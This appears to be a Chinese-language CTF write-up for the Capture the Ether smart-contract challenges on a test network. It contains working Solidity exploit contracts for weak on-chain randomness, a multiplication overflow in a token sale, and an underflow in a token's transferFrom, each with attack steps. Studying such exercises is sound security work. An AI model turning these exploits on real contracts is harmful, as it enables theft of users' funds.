

# 区块链官方CTF题 write-up

官方网站：https://capturetheether.com/challenges/

做题基本步骤：先下载好metamask插件并装载在浏览器上。登录metamask后点击题目左边的 `Begin Challenge` ，metamask会弹出是否发送消息的对话框，点击确定，之后会自动在Ropsten测试网上加载好ctf环境，之后就可以开始做题。完成题目后点击 `Check Solution` ，同样metamask会弹出是否发送消息的对话框，点击确定，完成验证。

## Warmup

### [Deploy a contract](https://capturetheether.com/challenges/warmup/deploy/)

* Write-Up

```
  直接点击 Begin Challenge , metamask 会弹出是否发送消息的对话框，点击确定。
  Begin Challenge 的圈圈转好之后，点击 Check Solution ，同样metamask会弹出是否发送消息的对话框，点击确定。
```

### [Call me](https://capturetheether.com/challenges/warmup/call-me/)

*   Write-Up

    总结：要想调用一个已经在链上部署的合约的函数，一个比较简单的方法是把源代码复制在remix上，再在deploy中的at address 框中输入已部署的合约地址。必须要这样，remix才可以找到已部署的合约并使用。

```
  打开 remix.ethereum.org 这个网址，新建一个合约文件，把solidity代码源码复制粘贴在合约文件中。
  在网址左侧找到 compile 栏，并单击右侧的compile按钮，编译该文件。
  在网址左侧找到 deploy 栏，environment下拉菜单中选择Injected Web3。
  在 deploy 栏中找到 at address ，在右侧框内输入题目中给的合约地址，点击 at address，下方会显示合约和合约函数列表，点击 callme 函数。
  完成
```

### [Choose a nickname](https://capturetheether.com/challenges/warmup/nickname/)

## Lotteries

### [Guess the number](https://capturetheether.com/challenges/lotteries/guess-the-number/)

### [Guess the secret number](https://capturetheether.com/challenges/lotteries/guess-the-secret-number/)

### [Guess the random number](https://capturetheether.com/challenges/lotteries/guess-the-random-number/)

*   题目：

    ```c
    pragma solidity ^0.4.21;

    contract GuessTheRandomNumberChallenge {
        uint8 answer;

        function GuessTheRandomNumberChallenge() public payable {
            require(msg.value == 1 ether);
            answer = uint8(keccak256(block.blockhash(block.number - 1), now));
        }

        function isComplete() public view returns (bool) {
            return address(this).balance == 0;
        }

        function guess(uint8 n) public payable {
            require(msg.value == 1 ether);

            if (n == answer) {
                msg.sender.transfer(2 ether);
            }
        }
    }
    ```
*   Write-up

    虽然uint8只有255种可能，但是`isComplete()`要求`address(this).balance == 0`。那么一次环境只能`guess`一次。所以我们要在`guess`前，先计算出来answer的值。

    > answer = uint8(keccak256(block.blockhash(block.number - 1), now));

    > `block.number` 即本区块的区块号
    >
    > `block.blockhash` 即目标区块号的区块哈希（`block.blockhash` 在 0.4.22 开始不推荐使用，在 0.5.0 已经移除了）
    >
    > `now` 即本区块号的时间戳，其值等于block.timestamp（在 0.7.0, `now` 被移除了）

    在`etherscan.io`上搜索合约，以`0xe2d8265D24A4e1045008AEAD2175C46dFA55b834`这个合约地址为例。

    

    

    一号是block号，点击进去后可以查看blockhash，也可以切换到别的block号进行查看。得到

    > block.blockhash(block.number - 1) = 0xbf411fd6aafdb859366aa052324f4580e735387e4b49cf8d4828433c6b3eeed0

    二号是timestamp。也就是构造体中的`now`。得到`Feb-20-2022 07:28:53 AM +UTC`。我们通过随便一个时间戳转换网址，把`UTC时间转换成UNIX时间戳`，得到时间戳`1645342133`。

    接着构造一个合约用于计算`keccak256`，合约如下。执行合约得解。

    ```
    pragma solidity ^0.4.21;

    contract GuessTheRandomNumberChallenge {
        uint8 public answer;

        function guess() public payable returns(uint8){
    		answer = uint8(keccak256(bytes32(0xbf411fd6aafdb859366aa052324f4580e735387e4b49cf8d4828433c6b3eeed0), uint(1645342133)));
    		
    		return answer;
        }
    }
    ```

    > 注意：要把`0xbf411fd6aafdb859366aa052324f4580e735387e4b49cf8d4828433c6b3eeed0`转换成`bytes32`，把`1645342133`转换成`uint`格式。
    >
    > 因为`block.blockhash`返回值是`bytes32`，`now`返回值是`uint`

### [Guess the new number](https://capturetheether.com/challenges/lotteries/guess-the-new-number/)

*   题目

    ```
    pragma solidity ^0.4.21;

    contract GuessTheNewNumberChallenge {
        function GuessTheNewNumberChallenge() public payable {
            require(msg.value == 1 ether);
        }

        function isComplete() public view returns (bool) {
            return address(this).balance == 0;
        }

        function guess(uint8 n) public payable {
            require(msg.value == 1 ether);
            uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));

            if (n == answer) {
                msg.sender.transfer(2 ether);
            }
        }
    }
    ```

    *   Write-Up

        该题目的keccak256计算是跟随函数一起执行的，所以无法使用“提前算出answer，手动执行函数”的思路。但是只需要answer的计算和guess中处于同一个区块即可。

        > 思路：创建另外一个合约函数，在新函数内部计算`uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now))`，再调用`guess(uint8 n)`，`answer`作为`guess(uint8 n)`的参数。
        >
        > 即可实现answer的计算和guess(uint8 n)在同一个区块。

        攻击合约如下：

    ```
    pragma solidity ^0.4.21;

    contract GuessTheNewNumberChallenge {
    ...
    }

    contract exploit{

        function deposit() payable returns (uint){
            return msg.value;
        }
        
        function withdraw() payable {
            msg.sender.transfer(this.balance);
        }

        function attacker(address addr) {
            require(this.balance >= 1 ether);

            uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));

            GuessTheNewNumberChallenge guessContract = GuessTheNewNumberChallenge(addr);
            guessContract.guess.value(1 ether)(answer);
        }

        function () payable{

        }
    }
    ```

    做的时候思路一开始就正确了，但是实现的时候总是报`transaction revert error`。

    **这里有几个点需要特别注意理解：**

    1.  `guessContract.guess.value(1 ether)(answer);`

        .value()是写在函数名和括号之间的。
    2.  `function () payable{}`

        **非常重要！！！**

        就是因为没有写支持`payable`的`fallback`函数导致一直报

        > `Gas estimation failed:execution reverted`。

        原因是`guess(uint8)`函数中有一条`msg.sender.transfer(2 ether);`会产生带有以太的回调。如果回调函数（即fallback函数）没有`payable`关键字，那就会报错。

        
    3.  `function attacker(address addr) {}`

        这个函数没有使用`payable`关键字，但是内部却使用了.value()。换言之，`payable`关键字的含义是“**调用该函数时**是否可以携带以太”。

        该函数调用别的函数时，只要别的函数有`payable`关键字就可以。

### [Predict the future](https://capturetheether.com/challenges/lotteries/predict-the-future/)

* 题目

```
pragma solidity ^0.4.21;

contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

*   Write-Up

    题目含义是answer的设置必须在`keccak256`的区块之前就进行。

    一开始的思路是能否确定`settle()`函数在哪个区块被执行，然后根据这个answer先计算。发现根本不可能确定具体在哪个区块被执行，遂放弃这个思路。

    重点是在于answer模了10，那么这个answer的可取值范围就很小了。开始考虑爆破。

    题目最后验证的是合约没有以太。如果我们执行了一次`settle()`又失败了，那么由于 `guesser= 0;`，guesser被重置，又要执行一次`lockInGuess(uint8 n)`，就又增加了1 ether。那么最后即使answer猜中了，验证也不会通过。所以我们必须执行仅仅一次`settle()`就成功。实现一个合约，在调用`settle()`前先判断一下answer是否猜中即可。

    攻击合约的代码如下：

```
pragma solidity ^0.4.21;

contract PredictTheFutureChallenge {
...
}

contract exploit{
    uint8 guess;
    address addr_predContract;

    function callLockInGuess(uint8 n,address addr) payable {
        guess = n;
        addr_predContract = addr;
        PredictTheFutureChallenge predContract = PredictTheFutureChallenge(addr_predContract);
        predContract.lockInGuess.value(1 ether)(guess);
    }

    function attacker(){
        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        require(answer == guess);

        PredictTheFutureChallenge predContract = PredictTheFutureChallenge(addr_predContract);
        predContract.settle();
    }

    function withdraw() payable{
        msg.sender.transfer(this.balance);
    }

    function () payable {

    }
}
```

执行流程：

1.  首先执行 `callLockInGuess(uint8 n,address addr)`

    n随便填一个0-9的数，addr是挑战的地址。
2. 多点几次`attacker()`，不管警告。多半会返回transaction fail，直到transaction success为止。当然也可以写个脚本发送请求，但是由于爆破的范围很小，手动点几下基本都可以碰撞成功。

注意：在remix上执行的时候，一般情况都会出现`revert error`

> `Gas estimation failed:execution reverted`。

也可能没有错误提示，直接可以执行。

不管有没有出现错误提示，直接执行即可。出现错误提示仅仅意味着，在以太坊节点模拟执行的时候会出错，这是因为根据模拟执行的最新区块号算出的answer不正确。不出现错误也仅仅意味着根据模拟执行的最新区块号算出的answer正确。只有根据实际执行的最新区块号算出的answer正确才行，所以直接一直执行就可以了。

### [Predict the block hash](https://capturetheether.com/challenges/lotteries/predict-the-block-hash/)

* 题目

```
pragma solidity ^0.4.21;

contract PredictTheBlockHashChallenge {
    address guesser;
    bytes32 guess;
    uint256 settlementBlockNumber;

    function PredictTheBlockHashChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(bytes32 hash) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = hash;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        bytes32 answer = block.blockhash(settlementBlockNumber);

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

* Write-Up



故只需要answer=0，并等待最新的区块比调用函数时的区块大256时即可。

## Math

## [Token sale](https://capturetheether.com/challenges/math/token-sale/)

* 题目

  ```
  pragma solidity ^0.4.21;
  
  contract TokenSaleChallenge {
      mapping(address => uint256) public balanceOf;
      uint256 constant PRICE_PER_TOKEN = 1 ether;
  
      function TokenSaleChallenge(address _player) public payable {
          require(msg.value == 1 ether);
      }
  
      function isComplete() public view returns (bool) {
          return address(this).balance < 1 ether;
      }
  
      function buy(uint256 numTokens) public payable {
          require(msg.value == numTokens * PRICE_PER_TOKEN);
  
          balanceOf[msg.sender] += numTokens;
      }
  
      function sell(uint256 numTokens) public {
          require(balanceOf[msg.sender] >= numTokens);
  
          balanceOf[msg.sender] -= numTokens;
          msg.sender.transfer(numTokens * PRICE_PER_TOKEN);
      }
  }
  ```

  

* Write-Up

没有溢出保护，构造溢出。

思路：构造溢出有两种思路。

1. 第一种思路是希望在`sell(uint256 numTokens)`中构造溢出，即思路是卖比实际价值更少的代币，获得更多的以太。

   这里能溢出的地方只有

   > balanceOf[msg.sender] -= numTokens; 
   >
   > 和
   >
   >  numTokens * PRICE_PER_TOKEN

   若构造减法溢出，即希望`balanceOf[msg.sender]`被负溢出，成为一个极大的值。但是由于`require(balanceOf[msg.sender] >= numTokens);`，该溢出无法做到。

   若构造乘法溢出，即希望`numTokens * PRICE_PER_TOKEN`溢出，得到一个极小的值。这样反而得到的以太变少了。

   故不在`sell(uint256 numTokens)`中构造溢出。

   

2. 第一种是在`buy(uint256 numTokens)`中构造溢出。

   这里同样有两处可以溢出。

   >numTokens * PRICE_PER_TOKEN
   >
   >和
   >
   >balanceOf[msg.sender] += numTokens;
   
   若构造`balanceOf[msg.sender] += numTokens;`的溢出，仍然无意义。
   
   正确溢出构造：构造`buy(uint256 numTokens)`中的`numTokens * PRICE_PER_TOKEN`溢出。
   
   即构造大数`numToken。`使得`numTokens * PRICE_PER_TOKEN`溢出，得到一个极小值。最终的结果是用极少量的钱购买了大量代币。
   
   本次攻击合约如下：

```
pragma solidity ^0.4.21;

contract TokenSaleChallenge {
...
}

contract exploit {
    address addrContractToken;
    uint256 constant PRICE_PER_TOKEN = 1 ether;

    function attackerBuy(address addr) public payable {

        addrContractToken = addr;

        uint256 makeOverflow = 2**256-1;
        uint256 overflowNumTokens = makeOverflow / PRICE_PER_TOKEN + 1;

        TokenSaleChallenge contractToken = TokenSaleChallenge(addrContractToken);
        contractToken.buy.value(415992086870360064)(overflowNumTokens);

    }

    function attackerSell()public{
        TokenSaleChallenge contractToken = TokenSaleChallenge(addrContractToken);
        contractToken.sell(1);
    }

    function () public payable{
        
    }

}
```

​		攻击步骤：

1. 执行`attackerBuy(address addr)`，并附带415992086870360064 Wei

   `addr`是挑战合约的地址，`overflowNumTokens`即我们构造的大数。它和`PRICE_PER_TOKEN`相乘后会溢出，得到一个不到1 ether 的值。该值经过事先计算，为415992086870360064。

2. 执行attackerSell()

## [Token whale](https://capturetheether.com/challenges/math/token-whale/)

* 题目

```
pragma solidity ^0.4.21;

contract TokenWhaleChallenge {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;

    function TokenWhaleChallenge(address _player) public {
        player = _player;
        totalSupply = 1000;
        balanceOf[player] = 1000;
    }

    function isComplete() public view returns (bool) {
        return balanceOf[player] >= 1000000;
    }

    event Transfer(address indexed from, address indexed to, uint256 value);

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;

        emit Transfer(msg.sender, to, value);
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    event Approval(address indexed owner, address indexed spender, uint256 value);

    function approve(address spender, uint256 value) public {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
    }

    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);

        allowance[from][msg.sender] -= value;
        _transfer(to, value);
    }
}
```

* Write-Up

  这个合约有一个最大的漏洞在`transferFrom(address from, address to, uint256 value)`中，这个函数只对from地址做了值上的判断，但是实际的转账是调用了`_transfer(address to, uint256 value)，如下：`

  ```
  function _transfer(address to, uint256 value) internal {
          balanceOf[msg.sender] -= value;
          balanceOf[to] += value;
  
          emit Transfer(msg.sender, to, value);
      }
  ```

  实际转账是从`msg.sender`转到`to`。这样可以实现`msg.sender`的余额小于`value`仍然可以做减法，造成负溢出。

  我们需要编写的只有一个工具合约，用来作为接收代币的工具人。工具合约如下，我们把部署后该合约的地址称作`toolContractAddr`：

  ```
  pragma solidity ^0.4.21;
  
  contract TokenWhaleChallenge {
  ...
  }
  
  contract toolContract{
      function approve(address player,address addrContractToken, uint256 value){
          TokenWhaleChallenge contractToken = TokenWhaleChallenge(addrContractToken);
          contractToken.approve(player,value);
      }
  }
  ```

  接下来就是人工操作进行攻击。

  1. 向`TokenWhaleChallenge`合约发送`approve(toolContractAddr，1000)`

     [为了许可向工具合约转移所有已有代币。数量至少1000。]

     

  2. 向`toolContract`合约发送`approve(自己的地址,挑战合约地址,1)`

     [为了许可后续负溢出操作的转账行为，数量随便多少。最小只需要允许给自己的地址转一个代币即可做到负溢出。]

     

  3. 向`TokenWhaleChallenge`合约发送`transfer(toolContractAddr，1000)`

     [把所有代币转移到工具合约处。为后续的负溢出操作做准备。此时自己的地址已经没有代币了。]

     

  4. 向`TokenWhaleChallenge`合约发送`transferfrom(toolContractAddr,toolContractAddr,1)`

     [负溢出操作。]

     该操作的具体原理如下：

     ```
     function transferFrom(toolContractAddr,  toolContractAddr, 1) public {
     
     		//toolContractAddr的余额为1000，大于1。通过。
             require(balanceOf[from] >= value);
             
             //toolContractAddr的余额 1000 + 1 = 1001，没有正溢出。通过。
             require(balanceOf[to] + value >= balanceOf[to]);
             
             //经过第2步allowance[from][msg.sender]为1，大于等于1.通过。
             require(allowance[from][msg.sender] >= value);
     
             allowance[from][msg.sender] -= value;
             _transfer(to, value);
         }
         
     function _transfer(toolContractAddr, 1) internal {
     		// balanceOf[msg.sender]此时由于第3步的转账，已经等于0，减一之后负溢出。
             balanceOf[msg.sender] -= value;
             
             balanceOf[to] += value;
     
             emit Transfer(msg.sender, to, value);
         }  
     ```

     当然第3步也可以不把所有代币转完，只要第4步多转点就行了。但是要注意工具合约的余额是否大于负溢出所需要的数量。第1,2步也需要改变数量。

  ## [Retirement fund](https://capturetheether.com/challenges/math/retirement-fund/)

  

